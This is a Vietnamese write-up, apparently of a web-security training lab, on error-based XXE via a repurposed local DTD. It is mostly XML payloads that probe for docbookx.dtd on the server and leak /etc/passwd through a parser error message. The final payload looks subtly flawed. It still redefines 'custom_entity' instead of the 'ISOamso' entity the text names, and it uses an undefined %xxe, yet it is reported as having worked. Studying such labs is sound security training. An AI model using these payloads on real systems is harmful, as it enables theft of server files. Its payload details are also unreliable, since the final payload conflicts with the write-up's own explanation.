









# Writeup LAB Exploiting XXE to retrieve data by repurposing a local DTD

## Goal
To solve the lab, trigger an error message containing the contents of the `/etc/passwd` file.
You'll need to reference an existing DTD file on the server and redefine an entity from it.
## Khai thác
Trang chủ

Với các bài thực hành trước lỗ hổng XXE xảy ra ở chức năng kiểm tra tồn kho

Lịch sử HTTP Burp

Với mục tiêu bài này chúng ta cần truy xuất tệp `/etc/passwd` nhưng ở bài LAB này nó không cho phép chúng ta khai báo một thực thể bên trong hay bên ngoài do chúng ta kiểm soát. Nhưng chúng ta có cách là Khai thác lỗ hổng XXE ẩn bằng cách tái sử dụng DTD cục bộ <br>
Và DTD cục bộ là sao:
> Kỹ thuật nêu trên hoạt động tốt với DTD bên ngoài, nhưng thường không hoạt động với DTD nội bộ được chỉ định đầy đủ bên trong DOCTYPE phần tử. <br>
> Kẻ tấn công có thể sử dụng kỹ thuật XXE dựa trên kích hoạt lỗi từ bên trong nội bộ DTD miễn là thực thể tham số XML mà chúng sử dụng đang định nghĩa lại một thực thể được khai báo trong một DTD bên ngoài. <br>
> Nếu các kết nối ngoài băng tần bị chặn thì sao thì DTD bên ngoài không được tải từ xa. Thay vào đó nó cần một DTD nằm bên ngoài và nằm trong cục bộ tren máy chủ ứng dụng <br>
> Về cơ bản, cuộc tấn công liên quan đến việc gọi một tệp DTD hiện có trên hệ thống tệp cục bộ và sử dụng lại nó để định nghĩa lại một thực thể hiện có theo cách gây ra lỗi phân tích cú pháp chứa dữ liệu nhạy cảm. <br>
> Kỹ thuật này được tiên phong bởi Arseniy Sharoglazov và được xếp hạng thứ 7 trong <a href="https://portswigger.net/blog/top-10-web-hacking-techniques-of-2018#7">top 10 kỹ thuật tấn công web năm 2018 </a> <br>
Giả sử có một tệp DTD trên hệ thống tệp của máy chủ tại vị trí `/usr/local/app/schema.dtd` và tệp DTD này định nghĩa một thực thể có tên là `custom_entity`. Kẻ tấn công có thể kích hoạt thông báo lỗi phân tích cú pháp XML chứa nội dung của `/etc/passwd` tệp bằng cách gửi một DTD lai như sau:
```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
<!ENTITY % custom_entity '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```


Vậy DTD hiện có để sử dụng lại là tệp nào thì ở ứng dụng các hệ thống sử dụng môi trường máy tính bàn bản GNOME thường có DTD ở `/usr/share/yelp/dtd/docbookx.dtd` chứa một thực thể được gọi là `ISOamso` <br>
Để kiểm tra tệp có tồn tại thật sự hay không tôi sẽ định nghĩa một thực thể XXE như sau 
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foobar[
<!ENTITY % xxe SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"> %xxe;]>
<stockCheck><productId>%xxe;</productId><storeId>1</storeId></stockCheck>
```
Kết quả cho thấy nó tồn tại

Và tại sao tôi biết nó tồn tại bằng cách sửa đổi tên khác để xem kêt quả phản hồi nó khác sao như sau:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foobar[
<!ENTITY % xxe SYSTEM "file:///usr/share/yelp/dtd/cocainit.dtd"> %xxe;]>
<stockCheck><productId>%xxe;</productId><storeId>1</storeId></stockCheck>
```
Kết quả lúc này server nó parse XML báo lỗi tệp không tìm thấy

Và khi đã biết tệp DTD tái sử dụng mình có thể khai báo payload như cũ để kích hoạt lỗi thực thi tệp `/etc/passwd`
```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % custom_entity '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
<stockCheck><productId>%xxe;</productId><storeId>1</storeId></stockCheck>
```
Kết quả lúc này tệp đã thực thi


